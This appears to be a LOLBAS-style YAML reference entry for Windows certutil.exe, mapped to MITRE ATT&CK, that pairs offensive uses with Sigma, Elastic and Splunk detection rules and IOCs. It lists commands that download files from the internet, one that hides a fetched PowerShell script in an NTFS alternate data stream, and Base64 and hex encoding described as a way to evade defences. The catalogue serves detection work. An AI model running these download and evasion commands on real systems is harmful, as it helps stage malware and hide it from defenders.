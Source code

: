 ```yaml
---
Name: Certutil.exe
Description: Windows binary used for handling certificates
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
    Description: Download and save 7zip to disk in the current folder.
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: certutil.exe -verifyctl -f -split http://7-zip.org/a/7z1604-x64.exe 7zip.exe
    Description: Download and save 7zip to disk in the current folder.
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
    Description: Download and save a PS1 file to an Alternate Data Stream (ADS).
    Usecase: Download file from Internet and save it in an NTFS Alternate Data Stream
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: certutil -encode inputFileName encodedOutputFileName
    Description: Command to encode a file using Base64
    Usecase: Encode files to evade defensive measures
    Category: Encode
    Privileges: User
    MitreID: T1027
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: certutil -decode encodedInputFileName decodedOutputFileName
    Description: Command to decode a Base64 encoded file.
    Usecase: Decode files to evade defensive measures
    Category: Decode
    Privileges: User
    MitreID: T1140
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: certutil -decodehex encoded_hexadecimal_InputFileName decodedOutputFileName
    Description: Command to decode a hexadecimal-encoded file decodedOutputFileName
    Usecase: Decode files to evade defensive measures
    Category: Decode
    Privileges: User
    MitreID: T1140
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\certutil.exe
  - Path: C:\Windows\SysWOW64\certutil.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/0fcbce993288f993e626494a50dad15fc26c8a0c/rules/windows/process_creation/win_susp_certutil_command.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_susp_certutil_encode.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/e9260679d4aeae7f696001c5b14d318d31c8f076/rules/windows/process_creation/process_creation_root_certificate_installed.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/4a11ef9514938e7a7e32cf5f379e975cebf5aed3/rules/windows/defense_evasion_suspicious_certutil_commands.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/command_and_control_certutil_network_connection.toml
  - Splunk: https://github.com/splunk/security_content/blob/3f77e24974239fcb7a339080a1a483e6bad84a82/detections/endpoint/certutil_download_with_urlcache_and_split_arguments.yml
  - Splunk: https://github.com/splunk/security_content/blob/3f77e24974239fcb7a339080a1a483e6bad84a82/detections/endpoint/certutil_download_with_verifyctl_and_split_arguments.yml
  - Splunk: https://github.com/splunk/security_content/blob/3f77e24974239fcb7a339080a1a483e6bad84a82/detections/endpoint/certutil_with_decode_argument.yml
  - IOC: Certutil.exe creating new files on disk
  - IOC: Useragent Microsoft-CryptoAPI/10.0
  - IOC: Useragent CertUtil URL Agent
Resources:
  - Link: https://twitter.com/Moriarty_Meng/status/984380793383370752
  - Link: https://twitter.com/mattifestation/status/620107926288515072
  - Link: https://twitter.com/egre55/status/1087685529016193025
Acknowledgement:
  - Person: Matt Graeber
    Handle: '@mattifestation'
  - Person: Moriarty
    Handle: '@Moriarty_Meng'
  - Person: egre55
    Handle: '@egre55'
  - Person: Lior Adar
---
```

